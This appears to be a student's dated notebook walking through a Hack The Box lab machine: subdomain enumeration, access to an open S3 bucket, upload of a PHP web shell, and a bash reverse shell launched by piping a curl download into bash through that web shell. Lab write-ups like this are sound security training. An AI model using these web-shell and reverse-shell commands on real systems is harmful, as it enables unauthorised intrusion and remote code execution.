 ### 12.01.2023

Finding subdomains:
-> For some reason wfuzz is running mad slow on my PC, same wordlist work very fast with gobuster. Also
wfuzz do not even get the correct respons?
-> gobuster example: 

```
gobuster vhost -w ../../wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://thetoppers.htb
```

also, when running gobuster, the -u [URL] needs to be after the -w [wordlist], its stupide, but the 
first one did not work for me. NOTE: Remember to use --append-domain.

### 13.01.2023
Working with AWS S3 buckets:
Apparently we can use the AWS CLI tool without having real credentials, 
sometimes they only check is there is a value there. I sett all of them to temp.

Lising the buckets we also need to spesify the endpoint, example:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls

or:

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

  
### 14.01.2023
We have gained access to thetoppers.htb buckets, or the aws s3 service being hosted on the website.
I can see that there is nothing interessting information in it, but we we have the option to 
upload malicious files.

Getting a reverse shell:
```
<?php system($_GET["cmd"]); ?>
```

Uploading php shell file to the bucket. 
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### 15-16.01.2023
Uploading a reverse shell to a Amazone S3 bucket:

From the .PHP script we build and uploaded yesterday we can execute commands via CMD on the server using:
```
http://thetoppers.htb/shell.php?cmd=[command]
```

Then we make a bash shell for us to get a reverse shell on the server(Why could we not just use the .php shell?). We the new shell creates a connection to our ip on port 1337.

```
#!/bin/bash

bash -i >& /dev/tcp/<IP>/1337 0>&1

```

-i: Launches interactive Bash shell.



And upload this new .sh shell to the server, we will be executing this via the .php shell. 

Setting up a http server running from my PC, in the directory i have saved the new .sh shell: 

```
python3 -m http.server 8000
```

This hosts a http service, listening for incoming connections on port 8000. When clients connect to the service when would gain access to all the file contained in the directory where the service is hosted. 

Then we set up a listener with netcat on the port we specified in the .sh script. (the -l specifies the listening mode)
```
nc -nvlp 1337
```


When executing this in the browser:
```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.233:8000/shell.sh|bash
```

we create execute the .sh shell and create a connection to our 1337 port, letting us execute code on their server from our terminal:

![[Pasted image 20240116201856.png]]
![[Pasted image 20240116201913.png]]



